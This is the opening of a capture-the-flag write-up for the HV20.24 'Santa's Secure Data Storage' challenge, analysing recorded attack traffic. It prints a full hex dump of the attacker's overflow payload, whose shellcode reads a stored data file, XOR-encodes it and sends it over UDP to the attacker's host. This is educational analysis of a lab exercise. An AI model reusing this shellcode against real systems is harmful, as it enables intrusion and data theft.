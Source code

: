 # HV20.24 Santa's Secure Data Storage

|  |  |
| --- | --- |
| **Author**     | scryh |
| **Level**      | leet |
| **Categories** | `crypto`, `exploitation`, `network security`, `reverse engineering` |


## Description
In order to prevent the leakage of any flags, Santa decided to instruct his elves to implement a secure data storage, which encrypts all entered data before storing it to disk.

According to the paradigm *Always implement your own crypto* the elves designed a custom hash function for storing user passwords as well as a custom stream cipher, which is used to encrypt the stored data.

Santa is very pleased with the work of the elves and stores a flag in the application. For his password he usually uses the secure password generator `shuf -n1 rockyou.txt`.

Giving each other a pat on the back for the good work the elves lean back in their chairs relaxedly, when suddenly the intrusion detection system raises an alert: the application seems to be exploited remotely!

### Mission
Santa and the elves need your help!

The intrusion detection system captured the network traffic of the whole attack.

How did the attacker got in? Was (s)he able to steal the flag?

[Download](./66aeb596-2ba0-4d07-a8de-3eb27eedb791.zip)

## Approach

### Analysis
In the recorded network traffic, we can observe like some client (192.168.0.42:44740) logs in to Santa's system (192.168.0.1:5555) using credentials `evil0r:lovebug1` and quits the application again by submitting `3` followed by some exploit payload, apparently:

```
0000   33 20 41 41 41 41 41 41 41 41 41 41 41 41 41 41   3 AAAAAAAAAAAAAA
0010   41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41   AAAAAAAAAAAAAAAA
0020   41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41   AAAAAAAAAAAAAAAA
0030   41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41   AAAAAAAAAAAAAAAA
0040   41 41 10 41 40 00 00 00 00 00 68 74 78 74 00 48   AA.A@.....htxt.H
0050   bf 74 61 5f 64 61 74 61 2e 57 48 bf 64 61 74 61   .ta_data.WH.data
0060   2f 73 61 6e 57 48 89 e7 48 31 f6 48 31 d2 b8 02   /sanWH..H1.H1...
0070   00 00 00 0f 05 48 89 c7 48 ba 00 00 01 00 01 00   .....H..H.......
0080   00 00 52 6a 00 6a 00 6a 00 6a 00 48 89 e6 48 ba   ..Rj.j.j.j.H..H.
0090   01 00 00 00 00 00 00 20 52 48 ba 00 00 00 13 37   ....... RH.....7
00a0   01 00 00 52 ba 20 00 00 00 b8 00 00 00 00 0f 05   ...R. ..........
00b0   48 31 c9 81 34 0e ef be ad de 48 83 c1 04 48 83   H1..4.....H...H.
00c0   f9 20 75 ef bf 02 00 00 00 be 02 00 00 00 48 31   . u...........H1
00d0   d2 b8 29 00 00 00 0f 05 48 89 c7 48 89 e6 48 83   ..).....H..H..H.
00e0   c6 03 ba 32 00 00 00 41 ba 00 00 00 00 6a 00 49   ...2...A.....j.I
00f0   b8 02 00 00 35 c0 a8 00 2a 41 50 49 89 e0 41 b9   ....5...*API..A.
0100   10 00 00 00 b8 2c 00 00 00 0f 05 bf 00 00 00 00   .....,..........
0110   b8 3c 00 00 00 0f 05 0a                           .<......
```

